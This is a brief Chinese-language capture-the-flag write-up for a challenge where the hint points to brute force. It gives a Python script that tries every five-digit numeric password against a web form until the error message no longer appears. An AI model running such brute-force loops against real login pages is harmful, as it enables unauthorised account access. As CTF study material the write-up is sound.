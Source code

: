 # 2. 输入密码查看flag

**Hint. **题目提示`爆破`（url里`baopo`）,写一段python脚本

```
import string
import requests

payload = '1234567890'

url='url'
s = requests.session()
r = s.get(url)

for a in payload:
    for b in payload:
        for c in payload:
            for d in payload:
                for e in payload:
                    data={'pwd':a+b+c+d+e}
                    r = s.post(url,data=data)
                    if "密码不正确，请重新输入" not in r.content:
                        print (r.content)
                        exit()

```

得到正确密码后，直接输入